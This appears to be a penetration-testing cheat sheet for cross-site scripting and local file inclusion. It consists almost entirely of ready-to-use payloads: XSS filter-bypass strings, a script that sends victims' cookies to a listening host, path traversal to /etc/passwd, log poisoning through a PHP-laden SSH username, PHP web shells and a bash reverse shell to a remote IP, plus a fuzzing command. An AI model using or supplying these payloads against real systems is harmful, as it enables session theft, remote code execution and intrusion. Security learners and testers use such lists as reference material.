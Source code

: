 ------------------------------------------------------------------cross site scripting-----------------------------------------------------------------------
-	<ScRipT>alert("XSS");</ScRipT>
-	<scr<script>ipt>alert(1)</script>
-	<svg/onload=alert(1)>
-	<a href=javascript:confirm()>click here
-	<img src=`xx:xx`onerror=alert(1)>
-	<img src=//x55.is OnError=import(src)>
-	</script><script >alert(document.cookie)</script>
-	<script>new  Image().src="http://10.0.2.10:4444/bogus.php?output="+escape(document.cookie);</script>

To automate the process, use the following tools
-	xsstrike
-	xsshunter
-	BeEF
-	JShell


-----------------------------------------------------------------Loca File Inclusion-------------------------------------------------------------------------
-	../../../../../../etc/passwd%00.jpg  --> Null Byte will ignore the extension
-	php://filter/convert.base64-encode/resource=
- /roc/self/environ || /var/log/auth.log [ssh log file] || /var/log/apache2/access.log [web server log file]  --> You can poison any of these log files to get a reverse shell
- Ssh “<?php passthru(base64_decode(‘base64PAYLOAD==’))?>”@10.0.2.13 --> poison the auth.log file
- ./ngrok http 9000  && python -m SimpleHTTPServer --> these two are required in order to execute a php file from an external server
- <?php system("ls /"); ?>
- <?php system($_GET['cmd']); ?>
- example.com/index.php?view=cat../../../../../../../../../var/log/apache2/access.log
- bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
- ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://<RHOST>/admin../admin_staging/index.php?page=FUZZ -fs 15349 --> searching for LFI
- decode (base64) the PHPSESSID --> you will find a path for /var/www/html/index.php --> you can change the path inside the cookie, encode it again then send it 

- Linux --> /etc/hosts
     - example.com/index.php?id=1
- windows --> IIS 
     - example.com/index.aspx?id=1

